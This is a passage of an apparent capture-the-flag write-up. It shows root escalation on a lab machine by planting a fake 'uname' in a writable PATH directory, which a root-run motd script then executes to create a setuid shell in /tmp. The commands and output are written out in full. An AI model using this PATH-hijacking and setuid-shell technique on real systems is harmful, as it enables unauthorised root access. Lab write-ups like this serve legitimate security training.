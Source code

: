 ### Hijacking

If we look in the `/etc/update-motd.d` directory, we see only one file: `10-uname`

```console
jkr@writeup:/tmp$ cd /etc/update-motd.d/
jkr@writeup:/etc/update-motd.d$ ls
10-uname
jkr@writeup:/etc/update-motd.d$ cat 10-uname
#!/bin/sh
uname -rnsom
```

This script just runs `uname`, and luckily for us it's absolute path has not been defined. Remeber how we discovered earlier that we could write to `/usr/local/bin` and `/usr/local/sbin`? This will come in handy now, as we can create a new script that will be run as root.

### Root!

Our malicious file is going to make a copy of `/bin/sh` in our `/tmp` directory and add execute and setuid permissions so that we can run it as root.

```console
jkr@writeup:/tmp$ echo '#!/bin/sh' > /usr/local/sbin/uname
jkr@writeup:/tmp$ echo 'cp /bin/sh /tmp/rootsh; chmod +xs /tmp/rootsh' >> /usr/local/sbin/uname
jkr@writeup:/tmp$ chmod +x /usr/local/sbin/uname
```

Now, let's login with ssh again and we should be able to run `sh` as root.

```console
jkr@writeup:/tmp$ ls
pspy64  rootsh  vmware-root
jkr@writeup:/tmp$ ./rootsh
# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev),1000(jkr)
```
We have root! Our `uid` is still 1000, but our `euid` and `egid` are 0, so we are able to get the flag.
